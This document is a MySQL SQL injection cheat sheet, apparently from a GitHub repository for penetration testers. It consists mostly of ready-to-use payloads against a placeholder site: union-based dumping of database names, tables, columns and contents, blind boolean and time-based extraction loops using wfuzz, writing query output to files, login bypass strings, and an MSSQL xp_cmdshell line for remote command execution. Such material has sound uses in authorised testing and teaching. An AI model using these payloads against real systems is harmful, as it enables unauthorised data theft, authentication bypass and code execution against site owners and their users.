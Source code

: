 # SQL Injection Cheat sheet (for MySQL)

This cheat sheet should NOT be considered as reference but guide to built on, some of the examples below will require modification(s) such as url encode, comments, etc. Before we continue here is couple good to know SQL functions

```php
limit <row offset>,<number of rows>                          # display rows based on offset and number

count(*)                                                     # display number of rows

rand()                                                       # generate random number between 0 and 1

floor(rand()*<number>)                                       # print out number part of random decimal number

select(select database());                                   # double query (nested) using database() as an example

group by <column name>                                       # summarize rows based on column name

concat(<string1>, <string2>, ..)                             # concatenate strings such as tables, column names

length(<string>)                                             # calculate the number of characters for given string

substr(<string>,<offset>,<characters length>)                # print string character(s) by providing offset and length

ascii(<character>)                                           # decimal representation of the character

sleep(<number of seconds>)                                   # go to sleep for <number of seconds>

if(<condition>,<true action>,<false action>)                 # conditional if statement

like "<string>%"                                             # checks if provided string present

outfile "<url to file>"                                      # dump output of select statement into a file

load_file("<url to file>")                                   # dump the content of file
```

Now comes the fun part, here's combination of error, union, blind SQL command injection examples.

Determine back-end query number of columns with error-based string SQL command injection

```php
http://meh.com/index.php?id=1 order by <number>
```

Determine back-end query number of columns by observing `http response size` with `wfuzz` in error-based integer SQL command injection

```php
wfuzz -c -z range,1-10 "http://meh.com/index.php?id=1 order by FUZZ"
```

Identify webpage printable union columns by providing false value to back-end query with error-based integer SQL command injection. This injection depends on number of columns identified by `order by` clause

```php
http://meh.com/index.php?id=-1 union select <number of columns seperated by comma>
```

Dump the content of table into the filesystem

```php
http://meh.com/index.php?id=-1')) union select <column1>,<column2> from <table name> into outfile "<url to file>" --+
```

Print back-end SQL version with error-based integer SQL command injection, assuming column 3 content gets diplayed on webpage

```php
http://meh.com/index.php?id=-1 union select 1,2,@@version,4,...
```

Print user running the query to access back-end database server with error-based integer SQL command injection

```php
http://meh.com/index.php?id=-1 union select 1,2,user(),4,...
```

Print database name with error-based integer SQL command injection

```php
http://meh.com/index.php?id=-1 union select 1,2,database(),4,...
```

Print database directory with error-based integer SQL command injection

```php
http://meh.com/index.php?id=-1 union select 1,2,@@datadir,4,...
```

Print table names with error-based integer SQL command injection

```php
http://meh.com/index.php?id=-1 union select 1,2,group_concat(table_name),4,... from information_schema.tables where table_schema=database()
```

Print column names with error-based integer SQL command injection

```php
http://meh.com/index.php?id=-1 union select 1,2,group_concat(column_name),4,... from information_schema.columns where table_name='<table name>'
```

Print content of column with error-based integer SQL command injection

```php
http://meh.com/index.php?id=-1 union select 1,2,group_concat(<column name>),4,... from <table name>
```

Use `and` statement as substitute to regular comments such as `--+`, `#`, and `/* */` with error-based string SQL command injection

```php
http://meh.com/index.php?id=1' <sqli here> and '1
```

Determine database name with boolean-based blind SQL injection with `substr()`

```php
http://meh.com/index.php?id=1' and (substr(database(),<offset>,<character length>))='<character>' --+
```

Determine database name with boolean-based blind SQL injection by observing `http response size` with combination of `substr()` and `wfuzz`, assuming database name does not include special characters

```php
for i in $(seq 1 10); do wfuzz -c -z list,a-b-c-d-e-f-g-h-i-j-k-l-m-n-o-p-q-r-s-t-u-v-w-x-y-z --hw=<word count> "http://meh.com/index.php?id=1' and (substr(database(),$i,1))='FUZZ' --+";done
```

Determine database name with boolean-based blind SQL injection by observing `http response size` with `substr()`, `ascii()` and `wfuzz`. The below range is the standard ASCII characters (32-127)

```php
for i in $(seq 1 10); do wfuzz -c -z range,32-127 --hw=<word count> "http://meh.com/index.php?id=1' and (ascii(substr(database(),$i,1)))=FUZZ --+";done
```

Determine table name with boolean-based blind SQL injection by observing `http response size` with `substr()`, `ascii()`, and `wfuzz`.The below range is the standard ASCII characters (32-127)

```php
for i in $(seq 1 10); do wfuzz -c -z range,32-127 --hw=<word count> "http://meh.com/index.php?id=1' and (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),$i,1)))=FUZZ --+";done # increment limit first argument by 1 to get the next available table name
```

Determine column name with boolean blind-based SQL injection by observing `http response size` with `substr()`, `ascii()`, and `wfuzz`. The below range is the standard ASCII characters (32-127)

```php
for i in $(seq 1 10); do wfuzz -c -z range,32-127 --hw=<word count> "http://meh.com/index.php?id=1' and (ascii(substr((select column_name from information_schema.columns where table_name=<table name> limit 0,1),$i,1)))=FUZZ --+";done # increment limit first argument by 1 to get the next available column name
```

Boolean-based blind SQL command injection demo

![alt text](https://j.gifs.com/W77p8o.gif)

Confirm time-based blind SQL injection using `sleep()` function

```php
http://meh.com/index.php?id=1' and sleep(10) --+
```

Determine database version with time-based blind SQL injection using `sleep()`, `like""`, and conditional `if`, assuming the back-end database is running version 5

```php
http://meh.com/index.php?id=1' and if((select version()) like "5%", sleep(10), null) --+
```

Determine database name with time-based blind SQL injection by observing `http response time` with `substr()`, `ascii()`, and `wfuzz`.The below range is the standard ASCII characters (32-127)

```php
for i in $(seq 1 10); do wfuzz -v -c -z range,32-127 "http://meh.com/index.php?id=1' and if((ascii(substr(database(),$i,1)))=FUZZ, sleep(10), null) --+";done > <filename.txt> && grep "0m9" <filename.txt>
```

Determine table name with time-based blind SQL injection by observing `http response time` with `substr()`, `ascii()`, `if`, and `wfuzz`.The below range is the standard ASCII characters (32-127)

```php
for i in $(seq 1 10); do wfuzz -v -c -z range,32-127 "http://meh.com/index.php?id=1' and if((select ascii(substr(table_name,$i,1))from information_schema.tables where table_schema=database() limit 0,1)=FUZZ, sleep(10), null) --+";done > <filename.txt> && grep "0m9" <filename.txt> # increment limit first argument by 1 to get the next available table name
```

Determine column name with time-based blind SQL injection by observing `http response time` with `substr()`, `ascii()`, `if`, and `wfuzz`.The below range is the standard ASCII characters (32-127)

```php
for i in $(seq 1 10); do wfuzz -v -c -z range,32-127 "http://meh.com/index.php?id=1' and if((select ascii(substr(column_name,$i,1))from information_schema.columns where table_name='<table name>' limit 0,1)=FUZZ, sleep(10), null) --+";done > <filename.txt> && grep "0m9" <filename.txt> # increment limit first argument by 1 to get the next available column name
```

Extract column content with time-based blind SQL injection by observing `http response time` with `substr()`, `ascii()`, `if`, and `wfuzz`.The below range is the standard ASCII characters (32-127)

```php
for i in $(seq 1 10); do wfuzz -v -c -z range,0-10 -z range,32-127 "http://meh.com/index.php?id=1' and if(ascii(substr((select <column name> from <table name> limit FUZZ,1),$i,1))=FUZ2Z, sleep(10), null) --+";done > <filename.txt> && grep "0m9" <filename.txt> # change <column name> to get the content of next column
```

Time-based blind SQL command injection with bash magic demo

![alt text](https://j.gifs.com/2vv2J1.gif)

Hope those were helpfull! Now here's couple login bypass commands that worked for me

```php
meh' OR 3=3;#
meh' OR 2=2 LIMIT 1;#
meh' OR 'a'='a
meh' OR 1=1 --+
```

Sometimes you'll run into Microsoft SQL server that have `xp_cmdshell` turned on, here's syntax for remote code execution

```php
meh' exec master..xp_cmdshell '<command here>' --
```

## Final notes

- If you made it this far then you know that most of the SQL command injection examples are based on `MySQL` and I don't plan on making any for `MSSQL` cause I'm lazy
- Use your proxy of choice to bypass client-side javascript restrictions
- `order by` clause works only with regular comments such as `--+`
- Update ASCII range to include special characters if you're going after users table
- `MySQL` don't have permissions to overwrite an exsisting file, make sure you go with new filename every single time with `outfile`.
- Make sure the vulnerable paramater have false value when working with union-based SQL command injection
- It's worth noting that all of the examples in this cheatsheet where http `GET` requests, and it shouldn't be that hard to replicate them with http `POST`requests once you grasp the core concepts.
- You need to input true value to the vulnerable paramter for `and sleep()` to work, otherwise go with `or sleep()`. Here's an example for the sake of clarification

```php
http://meh.com/index.php?id=<true value>' and sleep(1) #
http://meh.com/index.php?id=<false value>' or sleep(1) #
```
